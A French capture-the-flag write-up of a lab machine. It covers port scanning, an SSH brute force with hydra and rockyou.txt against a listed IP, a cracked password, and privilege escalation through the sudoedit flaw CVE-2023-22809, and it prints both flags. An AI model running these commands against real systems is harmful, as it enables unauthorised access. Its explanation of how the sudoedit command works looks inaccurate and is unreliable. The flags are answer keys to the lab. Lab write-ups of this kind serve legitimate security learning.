



- **Difficulté :** Moyenne
    
- **Flags :**
    
    - **User :** `c91c83ca-7f33-4bc9-98e8-9aeae2e0eb7b`
        
    - **Root :** `610f7a19-fecb-4cdd-9379-7148e2128b50`
        

---

## 1. Reconnaissance & Énumération

L'analyse initiale commence par un scan de ports **Nmap** pour identifier les surfaces d'attaque :

- **Port 22 :** Service SSH.
    
- **Port 80 :** Serveur Apache (Page de statut).
    

L'énumération web sur le port 80 ne révélant aucune vulnérabilité exploitable ou fichier caché, l'attention se porte sur le service SSH.

### Identification de l'utilisateur

Lors d'une tentative de connexion SSH infructueuse, la bannière du serveur (MOTD) affiche un message explicite :

> _Welcome to Charlie's Server_

Cette fuite d'information nous donne un nom d'utilisateur valide : **charlie**.

---

## 2. Accès Initial (Brute Force SSH)

Avec un utilisateur identifié, nous lançons une attaque par force brute sur le protocole SSH en utilisant la liste de mots de passe `rockyou.txt` :

```bash
hydra -l charlie -P /usr/share/wordlists/rockyou.txt ssh://54.217.150.140
```

**Résultats :**

- **Username :** `charlie`
    
- **Password :** `trustno1`
    

`

Nous nous connectons en SSH et récupérons le premier flag :

```bash
cat user.txt
# Flag : c91c83ca-7f33-4bc9-98e8-9aeae2e0eb7b
```

---

## 3. Escalade de Privilèges

L'énumération des droits de l'utilisateur avec `sudo -l` révèle une configuration intéressante :

```text
User charlie may run the following commands on ip-10-0-7-88:
    (ALL) sudoedit
```

`

### Vulnérabilité : CVE-2023-22809 (Sudoedit Bypass)

La version de sudo installée (`1.9.12p1`) est vulnérable à un détournement de variable d'environnement. Bien que `sudoedit` soit censé restreindre l'édition à certains fichiers, une injection d'arguments dans la variable `EDITOR` permet d'ouvrir n'importe quel fichier du système en tant que root.


### Exploitation & Lecture du Flag Root

Plutôt que de chercher à obtenir un shell complet, nous utilisons l'injection pour lire directement le flag protégé dans le répertoire `/root/`.

En réglant l'éditeur sur `cat`, le contenu du fichier est renvoyé directement dans la sortie standard du terminal :

```bash
EDITOR="cat" sudoedit /home/charlie/.bashrc -- -- /root/flag-root.txt
```

> **Pourquoi cette commande ?**
> Les `--` servent à séparer les arguments de l'éditeur des fichiers à éditer. En injectant un second chemin après les doubles tirets, `sudoedit` traite `/root/flag-root.txt` comme une extension du premier fichier, nous permettant de lire un fichier normalement inaccessible à l'utilisateur `charlie`.

**Résultat :**

- **Root flag :** `610f7a19-fecb-4cdd-9379-7148e2128b50`
